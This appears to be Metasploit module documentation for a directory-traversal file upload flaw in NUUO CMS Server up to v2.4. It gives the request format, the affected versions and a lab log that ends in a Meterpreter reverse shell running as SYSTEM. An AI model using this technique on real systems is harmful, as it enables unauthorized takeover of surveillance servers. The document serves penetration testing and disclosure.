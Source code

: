 ## Description

Nuuo CMS Authenticated Arbitrary File Upload

The COMMITCONFIG verb is used by a CMS client to upload and modify the configuration of the CMS Server. An example is below:

```
COMMITCONFIG NUCM/1.0
User-Session-No: <session-number>
Filename: <filename>
FileType: <number>
Content-Lenght: <file-length>

<FILE_DATA>
```

The vulnerability is in the "FileName" parameter, which accepts directory traversal (..\\..\\) characters. Therefore, this function can be abused to overwrite any files in the installation drive of CMS Server.

This vulnerability is exploitable in CMS versions up to and including v2.4.

This module will either use a provided session number (which can be guessed with an auxiliary module) or attempt to login using a provided username and password - it will also try the default credentials if nothing is provided.

## Vulnerable Application

[NUUO Central Management Server (CMS): all versions below 2.5](http://d1.nuuo.com/NUUO/CMS/)

 - 1.5.2 OK
 - 2.1.0 OK
 - 2.3.2 OK
 - 2.4.0 OK
 - 2.6.0 FAIL (vuln fixed?)
 - 2.9.0 FAIL
 - 2.10.0 FAIL

## Scenarios

### Testing on Windows 10 Pro x64 running NCS Server 2.4.0

```
msf5 exploit(windows/nuuo/nuuo_cms_fu) > set rhosts 172.22.222.200
rhosts => 172.22.222.200
msf5 exploit(windows/nuuo/nuuo_cms_fu) > set verbose true
verbose => true
msf5 exploit(windows/nuuo/nuuo_cms_fu) > exploit

[*] Started reverse TCP handler on 172.22.222.136:4444 
[*] 172.22.222.200:5180 - Backing up LicenseTool.dll to TQzixBdpOiRG
[*] 172.22.222.200:5180 - Uploading payload...
[*] 172.22.222.200:5180 - Sleeping 15 seconds...
[*] 172.22.222.200:5180 - Sending SENDLICFILE request, shell incoming!
[*] Sending stage (179779 bytes) to 172.22.222.200
[*] Meterpreter session 3 opened (172.22.222.136:4444 -> 172.22.222.200:49674) at 2019-02-19 05:46:51 -0600

meterpreter > 
[!] 172.22.222.200:5180 - Please wait a bit while we clean up
[+] 172.22.222.200:5180 - Successfully restored LicenseTool.dll!
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
[+] 172.22.222.200:5180 - We should have SYSTEM now, enjoy your shell!

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > sysinfo
Computer        : DESKTOP-IPOGIJR
OS              : Windows 10 (Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter >
```

## References

https://ics-cert.us-cert.gov/advisories/ICSA-18-284-02

https://raw.githubusercontent.com/pedrib/PoC/master/advisories/nuuo-cms-ownage.txt
